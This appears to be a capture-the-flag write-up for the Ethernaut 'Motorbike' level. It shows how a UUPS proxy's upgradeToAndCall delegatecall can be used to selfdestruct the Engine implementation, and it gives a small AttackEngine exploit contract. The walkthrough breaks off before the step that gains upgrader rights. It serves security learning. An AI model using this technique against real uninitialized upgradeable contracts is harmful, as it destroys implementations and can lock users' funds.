 ### Goal of this level

* `selfdestruct` **`Engine`** contract

### What you should know before

* EIP-1967\
  \-> see [here](https://eips.ethereum.org/EIPS/eip-1967) and [here](https://youtu.be/JEt3dBHB73U)
* UUPS pattern\
  \-> see [here](https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786)

## Solution

<details><summary>Key to solve this problem 🔑</summary></details>

The goal is to selfdestruct **`Engine`** contract.\
(**`Engine`**, not **`Motorbike`**)

To do that, we will have to `delegatecall` to a function that runs `selfdestruct`.

```solidity
// Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
function _upgradeToAndCall(
    address newImplementation,
    bytes memory data
) internal {
    // Initial upgrade and setup call
    _setImplementation(newImplementation);
    if (data.length > 0) {
        (bool success,) = newImplementation.delegatecall(data);
        require(success, "Call failed");
    }
}
```

We will pass in the address of our exploit contract and make it call a function that selfdestructs.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity < 0.7.0;

contract AttackEngine {
    function attack() external {
        selfdestruct(address(0));
    }    
}
```

This will be our exploit contract.

```solidity
// Upgrade the implementation of the proxy to `newImplementation`
// subsequently execute the function call
function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
    _authorizeUpgrade();
    _upgradeToAndCall(newImplementation, data);
}

// Restrict to upgrader role
function _authorizeUpgrade() internal view {
    require(msg.sender == upgrader, "Can't upgrade");
}
```
